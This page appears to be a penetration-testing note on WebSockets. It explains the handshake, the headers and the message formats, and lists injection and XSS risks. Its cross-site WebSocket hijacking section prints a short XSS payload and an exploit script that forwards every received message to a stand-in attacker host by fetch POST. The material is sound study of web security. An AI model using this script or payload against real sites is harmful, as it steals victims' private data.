 ```yaml
---
title: "WebSockets"
weight: 28
description: "Learn about WebSockets penetration testing, including connection establishment, vulnerabilities like XSS and SQLi, and cross-site WebSocket hijacking."
---
```


WebSocket connections are long-lived HTTP initiations allowing bidirectional messaging. The connection stays open until a message is sent by the client or server. WebSocket is ideal for low-latency and server-triggered messages, such as real-time financial data feeds.

<details><summary>How are WebSocket connections established?</summary>

WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The `wss` protocol establishes a WebSocket over an encrypted TLS connection, while the `ws` protocol uses an unencrypted connection.

To establish the connection, the browser and server perform a WebSocket handshake via HTTP. The browser sends a WebSocket handshake request like this:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

</details>

<details>
<summary>Headers</summary>

* The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.

- The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.

* The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request. This is use to prevent errors from caching proxies. (It is not like CSRF token...)

- The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

</details>

<details><summary>What do WebSocket messages look like?</summary>

WebSocket messages can contain any content or data format

```javascript
ws.send("Peter Wiener");
```

It is common to use json

```json
{"user":"Hal Pline","content":"Hello"}
```

</details>

---

## Manipulating WebSocket connections

[https://portswigger.net/web-security/websockets#manipulating-websocket-connections](https://portswigger.net/web-security/websockets#manipulating-websocket-connections)

---

## WebSockets vulnerabilities

* If inputs are transmitted and processed server-side
  * Server-side attacks (SQLi, XXE, etc.)
* If attacker-controlled data is transmitted via WebSockets to other application users
  * Client-side attacks (XSS, etc.)
    * Example if the content of a message is transmitted to another user (via chat...)
    * `{"message":"<img src=1 onerror='alert(1)'>"}`
* Also blind vulnerabilities

---

## Cross-site WebSocket hijacking

An attacker can craft a malicious webpage on their domain, initiating a cross-site WebSocket connection to the susceptible application. (As CSRF, the websocket connection mustn't contain CSRF tokens)

* Perform unauthorized actions masquerading as the victim user (like CSRF)
* Retrieve sensitive data that the user can access.
* Waiting for incoming messages to arrive containing sensitive data.

Exploitation code to open a websocket connection to send messages on your server

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
